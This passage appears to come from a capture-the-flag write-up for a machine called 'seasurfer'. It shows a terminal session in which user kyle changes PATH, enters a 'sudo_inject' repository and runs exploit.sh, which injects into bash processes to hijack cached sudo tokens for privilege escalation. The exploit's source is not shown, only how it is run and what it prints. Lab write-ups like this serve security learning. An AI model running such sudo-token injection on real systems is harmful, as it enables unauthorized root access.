GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

```
kyle@seasurfer:~$ export PATH=$(pwd):$PATH
kyle@seasurfer:~$ echo $PATH
/home/kyle:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kyle@seasurfer:~$ cd sudo_inject/
kyle@seasurfer:~/sudo_inject$ ls -al
total 1800
drwxrwxr-x 4 kyle kyle   4096 Aug 15 20:17 .
drwxr-x--- 9 kyle kyle   4096 Aug 15 20:22 ..
drwxrwxr-x 8 kyle kyle   4096 Aug 15 20:17 .git
-rw-rw-r-- 1 kyle kyle   5270 Aug 15 20:17 README.md
-rwxrwxr-x 1 kyle kyle 978128 Aug 15 20:17 activate_sudo_token
-rw-rw-r-- 1 kyle kyle    648 Aug 15 20:17 exploit.sh
-rw-rw-r-- 1 kyle kyle    493 Aug 15 20:17 exploit_v2.sh
-rw-rw-r-- 1 kyle kyle    562 Aug 15 20:17 exploit_v3.sh
drwxrwxr-x 3 kyle kyle   4096 Aug 15 20:17 extra_tools
-rw-rw-r-- 1 kyle kyle 827220 Aug 15 20:17 slides_breizh_2019.pdf
kyle@seasurfer:~/sudo_inject$ chmod +x exploit.sh 
kyle@seasurfer:~/sudo_inject$ ./exploit.sh 
Current process : 82940
Injecting process 1124 -> bash
Injecting process 51612 -> bash
Sorry, try again.
kyle@seasurfer:~/sudo_inject$
```


